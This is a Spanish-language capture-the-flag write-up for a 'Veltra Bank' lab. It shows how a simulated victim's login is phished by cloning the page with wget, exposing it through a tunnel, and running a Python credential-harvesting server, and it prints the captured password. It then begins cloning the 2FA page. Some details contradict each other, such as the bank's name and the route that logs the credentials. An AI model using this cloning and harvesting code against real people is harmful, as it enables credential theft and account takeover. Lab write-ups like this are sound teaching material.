# M1st1fy

# M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)

> Nota: Pueden encontrar los otros documentos del HackLab2026 [aquí](https://github.com/M1st1fy/HackLab2026)
## Integrantes

| Integrante        | Facultad                                        |
| :---------------- | :---------------------------------------------- |
| Agustín M. Blanco | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |
| Tomás N. Raspa    | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |

## Índice

1. [Veltra Bank](Veltra%20Bank.md#Veltra%20Bank)
	1. [Primera aproximación](#Primera%20aproximación)
	2. [Primer intento](#Primer%20intento)
		1. [Copiando la página de login](#Copiando%20la%20página%20de%20login)
		2. [Hosteando un webserver local](#Hosteando%20un%20webserver%20local)
		3. [Exponiendo la página falsa para nuestra víctima](#Exponiendo%20la%20página%20falsa%20para%20nuestra%20víctima)
		4. [Webserver local v2](#Webserver%20local%20v2)
	3. [Segundo intento!](#Segundo%20intento!)
		1. [Clonando la página del 2FA](#Clonando%20la%20página%20del%202FA)
		2. [Convirtiendo la página en un arma](#Convirtiendo%20la%20página%20en%20un%20arma)
		3. [Webserver local v3](#Webserver%20local%20v3)
	4. [El ataque final](#El%20ataque%20final)
		1. [Impersonando a Gastón](#Impersonando%20a%20Gastón)
		2. [Flag!](#Flag!)

---


## Veltra Bank



### Primera aproximación

Al ingresar al sistema, nos encontramos con lo que parecería ser el LogIn del banco VentraBank



Dado que no contamos con un usuario del sistema para poder probar, lo primero que intentamos es acceder con un usuario inventado para ver a donde envía las solicitudes el sistema


Vemos que al intentar iniciar sesión envía una solicitud de tipo `POST` a `/login` con el usuario y clave ingresados en el `body` de la solicitud. A esta solicitud el sistema responde con un error lo que nos indica que realmente está haciendo las validaciones en el backend


Leyendo el código JS que está siendo ejecutado por la página del lado del cliente, descubrimos que además del usuario y contraseña, el sistema cuenta con un mecanismo de 2FA para autenticar al usuario, esto podría ponernos las cosas más complicadas
```js
/*
 * Veltra Bank — logica de los formularios (login y 2FA) por fetch.
 *
 * Paso 1 (login): manda {usuario, clave} tal cual a /api/login.
 *
 * Paso 2 (2FA): el codigo NUNCA viaja en claro. Se pide un desafio de un solo
 * uso (nonce) a /api/challenge y se envia sha256(nonce + ":" + codigo) a
 * /api/verificar. El codigo que tipea el usuario esta en #txt-2fa.
 */
(function () {
  "use strict";

  // SHA-256 en JS puro (no depende de crypto.subtle, que no existe sobre http).
  function sha256(ascii) {
    function rightRotate(value, amount) {
      return (value >>> amount) | (value << (32 - amount));
    }
    var mathPow = Math.pow;
    var maxWord = mathPow(2, 32);
    var result = "";
    var words = [];
    var asciiBitLength = ascii.length * 8;
    var hash = sha256.h = sha256.h || [];
    var k = sha256.k = sha256.k || [];
    var primeCounter = k.length;
    var isComposite = {};
    for (var candidate = 2; primeCounter < 64; candidate++) {
      if (!isComposite[candidate]) {
        for (var i = 0; i < 313; i += candidate) {
          isComposite[i] = candidate;
        }
        hash[primeCounter] = (mathPow(candidate, 0.5) * maxWord) | 0;
        k[primeCounter++] = (mathPow(candidate, 1 / 3) * maxWord) | 0;
      }
    }
    ascii += "\x80";
    while (ascii.length % 64 - 56) ascii += "\x00";
    for (i = 0; i < ascii.length; i++) {
      var j = ascii.charCodeAt(i);
      if (j >> 8) return "";
      words[i >> 2] |= j << ((3 - i) % 4) * 8;
    }
    words[words.length] = (asciiBitLength / maxWord) | 0;
    words[words.length] = asciiBitLength;
    for (j = 0; j < words.length;) {
      var w = words.slice(j, j += 16);
      var oldHash = hash;
      hash = hash.slice(0, 8);
      for (i = 0; i < 64; i++) {
        var w15 = w[i - 15], w2 = w[i - 2];
        var a = hash[0], e = hash[4];
        var temp1 = hash[7]
          + (rightRotate(e, 6) ^ rightRotate(e, 11) ^ rightRotate(e, 25))
          + ((e & hash[5]) ^ ((~e) & hash[6]))
          + k[i]
          + (w[i] = (i < 16) ? w[i] : (
              w[i - 16]
              + (rightRotate(w15, 7) ^ rightRotate(w15, 18) ^ (w15 >>> 3))
              + w[i - 7]
              + (rightRotate(w2, 17) ^ rightRotate(w2, 19) ^ (w2 >>> 10))
            ) | 0
          );
        var temp2 = (rightRotate(a, 2) ^ rightRotate(a, 13) ^ rightRotate(a, 22))
          + ((a & hash[1]) ^ (a & hash[2]) ^ (hash[1] & hash[2]));
        hash = [(temp1 + temp2) | 0].concat(hash);
        hash[4] = (hash[4] + temp1) | 0;
      }
      for (i = 0; i < 8; i++) {
        hash[i] = (hash[i] + oldHash[i]) | 0;
      }
    }
    for (i = 0; i < 8; i++) {
      for (j = 3; j + 1; j--) {
        var b = (hash[i] >> (j * 8)) & 255;
        result += ((b < 16) ? 0 : "") + b.toString(16);
      }
    }
    return result;
  }

  function mostrarError(msg) {
    var el = document.getElementById("alert");
    if (el) {
      el.textContent = msg;
      el.style.display = "";
    }
  }

  function enviarJSON(url, cuerpo) {
    var opciones = { method: "GET", headers: {} };
    if (cuerpo !== undefined) {
      opciones.method = "POST";
      opciones.headers["Content-Type"] = "application/json";
      opciones.body = JSON.stringify(cuerpo);
    }
    return fetch(url, opciones).then(function (r) { return r.json(); });
  }

  // --- Paso 1: login ---
  var formLogin = document.getElementById("form-login");
  if (formLogin) {
    formLogin.addEventListener("submit", function (e) {
      e.preventDefault();
      var usuario = document.getElementById("txt-login").value.trim();
      var clave = document.getElementById("txt-password").value;
      enviarJSON("/api/login", { usuario: usuario, clave: clave })
        .then(function (data) {
          if (data.ok) { window.location = data.next; }
          else { mostrarError(data.error || "No se pudo iniciar sesion."); }
        })
        .catch(function () { mostrarError("Error de red."); });
    });
  }

  // --- Paso 2: 2FA ---
  var form2fa = document.getElementById("form-2fa");
  if (form2fa) {
    form2fa.addEventListener("submit", function (e) {
      e.preventDefault();
      // El codigo tipeado por el usuario; aca todavia esta en claro.
      var codigo = document.getElementById("txt-2fa").value.trim();
      enviarJSON("/api/challenge")
        .then(function (data) {
          if (!data.ok) { mostrarError(data.error || "No se pudo iniciar la verificacion."); return; }
          var respuesta = sha256(data.nonce + ":" + codigo);
          return enviarJSON("/api/verificar", { respuesta: respuesta })
            .then(function (res) {
              if (res.ok) { window.location = res.next; }
              else { mostrarError(res.error || "Codigo incorrecto."); }
            });
        })
        .catch(function () { mostrarError("Error de red."); });
    });
  }
})();

```
### Primer intento

Del enunciado del desafío sabemos que tenemos un mecanismo para que nuestra víctima, Gastón Díaz, visite una página arbitraria provista por nosotros; pero si leemos atentamente, nos indica también que si Gastón detecta algo sospechoso, la cerrará inmeditamente. Teniendo en cuenta esto, para obtener las credenciales de gastón, podemos intentar clonar la página de `VentraBank` pero modificar el JS para que nos envíe sus credenciales en texto plano a nosotros. 

#### Copiando la página de login

Para ello, primero debemos conseguir una copia exacta de la página. Buscando un poco, podemos encontrar que hay una herramienta muy popular conocida como `wget` que nos permite hacer justo esto. En particular, el comando que utilizaremos es:
```sh
wget --recursive --no-clobber --page-requisites --html-extension --convert-links --restrict-file-names=windows --domains <dominio laboratorio> --no-parent https://<dominio laboratorio>/login
```

Luego de ejecutarlo, vemos que tenemos un directorio nuevo, nombrado como el dominio que acabamos de descargar


Y, si abrimos con el navegador el archivo `login.html`, vemos que es una copia exacta de la página de login del banco


#### Hosteando un webserver local

Una vez obtenida la copia de la página, es necesario hostearla en un webserver para que pueda ser accedida a traves de la red. Para eso, inicialmente haremos uso del módulo http de python. Ejecutamos el siguiente comando en el directorio donde tenemos la página clonada:

```sh
python -m http.server 3000
```

Una vez hecho esto, en el terminal nos indica que se inició un servidor web que escucha en el puerto 3000 de todas las interfaces (`0.0.0.0:3000`)


Y, si ahora ingresamos en el navegador a `http:127.0.0.1:3000/login.html`, seremos presentados con la página clonada:


#### Exponiendo la página falsa para nuestra víctima

Genial, ya tenemos una copia exacta de la página para engañar a Gastón, ahora sólo nos falta hacer que entre. Para ello, hay varias opciones; durante la competencia decidimos resolverlo haciendo uso de un reverse proxy que ya teníamos configurado para este tipo de escenarios, pero en pos de hacerlo accesible para todos, decidimos redactar este writeup utilizando una herramienta muy popular que nos permite exponer servicios web sin la complejidad asociada con configurar un reverse proxy. Dicha herramienta es [zgrok](https://www.zgrok.io/). 

> Nota: Debido a un cambio en las políticas de `ngrok` ya no es de utilidad para este tipo de ataques. Por ello debimos cambiar a `zgrok`

Para utilizarla, debemos registrarnos en su página y crear un nuevo proyecto


Luego debemos instalar el cliente, siguiendo las instrucciones proporcionadas por la página:


Una vez hecho esto, el sistema nos indica el comando que debemos utilizar para exponer el tunel


Ejecutamos el comando provisto en una nueva terminal, obtenemos lo siguiente:


Al ejecutarlo, nos indica que el túnel se creó correctamente y la URL que debemos utilizar para acceder al mismo. Esta es la URL que deberemos enviarle a Gastón. Al ingresar, confirmamos que efectivamente se muestra nuestra página


Genial! Ahora compartamos este link con Gastón para robarnos sus credenciales!


Completamos los datos en el sistema y... nada... qué falló? Leyendo los logs del túnel vemos lo siguiente

Vemos que Gastón sí intentó entrar, pero el sistema devolvió un 501, ya que la request que está haciendo es un `POST` y nuestro `python -m http.server 3000` sólo espera `GET`s. Veamos cómo lo solucionamos!

#### Webserver local v2

Para solucionar los problemas de las URL y métodos, podemos crear un simple script de python utilizando el mismo módulo `HTTPServer` pero de forma que emule tanto las rutas como los métodos utilizados por la página real. 
```python
import json
from http.server import BaseHTTPRequestHandler, HTTPServer
from pathlib import Path

# Resolve path relative to this script file
BASE_DIR = Path(__file__).resolve().parent
LOGIN_FILE = BASE_DIR / "login.html"

class SimpleAuthHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/login":
            if not LOGIN_FILE.is_file():
                self.send_error(404, "File login.html not found.")
                return

            # Read bytes directly from disk on each request
            html_bytes = LOGIN_FILE.read_bytes()

            self.send_response(200)
            self.send_header("Content-Type", "text/html; charset=utf-8")
            self.send_header("Content-Length", str(len(html_bytes)))
            self.end_headers()
            self.wfile.write(html_bytes)
        else:
            self.send_error(404, "Not Found")

    def do_POST(self):
        if self.path == "/api/login":
            content_length = int(self.headers.get("Content-Length", 0))
            raw_body = self.rfile.read(content_length).decode("utf-8")

            print("\n" + "=" * 50)
            print(f"[POST] /api/login from {self.client_address[0]}:{self.client_address[1]}")
            print("Headers:")
            print(self.headers.as_string().strip())
            print("Payload:")
            print(raw_body if raw_body else "<empty body>")
            print("=" * 50 + "\n")

            response_payload = json.dumps({"status": "ok", "message": "Credentials logged."})
            response_bytes = response_payload.encode("utf-8")

            self.send_response(200)
            self.send_header("Content-Type", "application/json")
            self.send_header("Content-Length", str(len(response_bytes)))
            self.end_headers()
            self.wfile.write(response_bytes)
        else:
            self.send_error(404, "Not Found")

def run(port=8000):
    server = HTTPServer(("", port), SimpleAuthHandler)
    print(f"Server running at http://localhost:{port}/login")
    try:
        server.serve_forever()
    except KeyboardInterrupt:
        print("\nShutting down server.")
        server.server_close()

if __name__ == "__main__":
    run(3000)
```

Paramos el webserver que habíamos creado antes con `python -m http.server 3000` y en su lugar ejecutamos nuestro nuevo script:


Una vez hecho esto, volvemos a hacer que Gastón entre a nuestra página, y ahora sí, obtuvimos sus credenciales!


La solicitud `/login?txtLogin=gaston.diaz&txtPassword=Gaston%245.%21%401990` contiene las credenciales de Gastón luego de un `URLEncode`. Para obtenerlas en texto plano, utilizamos un decodificador como el de [urldecode.org](https://www.urldecoder.org/):
```sh
txtLogin=gaston.diaz
txtPassword=Gaston$5.!@1990
```

#### Suplantación de identidad

Con las credenciales obtenidas, intentamos ingresar en el sistema en nombre de Gastón, pero al hacerlo nos encontramos con un problema...

El 2FA! Al ver esto, recordamos que en la exploración inicial habíamos identificado que el sistema utilizaba 2FA para autenticar a sus usuarios. Y ahora qué hacemos?


### Segundo intento!

Con todo lo aprendido, nos enfocamos ahora en falsificar la página del 2FA para poder robar el token de Gastón y con eso completar el inicio de sesión. 

#### Clonando la página del 2FA

Lo primero que necesitamos para robar el token de Gastón, es clonar la página del 2FA. Para ello, realizamos el mismo procedimiento con `wget` que hicimos para la página del login con una pequeña salvedad: La página del segundo factor espera una cookie de sesión para saber que está en la etapa de la validación. 

Para obtener la cookie, nos ayudamos de las herramientas de desarrollador del navegador, y bajo la sección de `Storage`, las encontramos:


Una vez obtenida esta cookie, ejecutamos el `wget` indicandole que debe utilizar la cookie de sesión:

```sh
wget --recursive --no-clobber --page-requisites --html-extension --convert-links --restrict-file-names=windows --domains <dominio laboratorio> --no-parent --header="Cookie: session=<cookie obtenida anteriormente>" https:/<dominio laboratorio>/verificar
```

Luego de ejecutar el comando, vemos que en la carpeta donde estaba la copia de `login.html` ahora también hay un archivo llamado `verificar.html` que al abrirlo, nos lleva a la página con el challenge


